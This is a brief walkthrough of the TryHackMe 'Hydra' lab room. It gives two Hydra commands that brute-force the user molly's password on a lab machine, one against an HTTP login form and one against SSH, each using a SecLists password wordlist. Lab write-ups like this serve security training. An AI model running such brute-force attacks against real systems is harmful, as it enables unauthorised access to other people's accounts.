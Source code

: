 # Hydra&#x20;

**Room Link:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)



**Use Hydra to bruteforce molly's web password. What is flag 1?**

Opened up the webconsole and tried entering the credentials to see what the request would look like. We can see the failed login attempt message and the fields used for login which we can used to craft our hydra command.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

`hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 http-post-form "/login/:username=^USER^&password=^PASS^:F=incorrect" -V`

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

`hydra -l molly -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.132.200 -t 4 ssh -V`

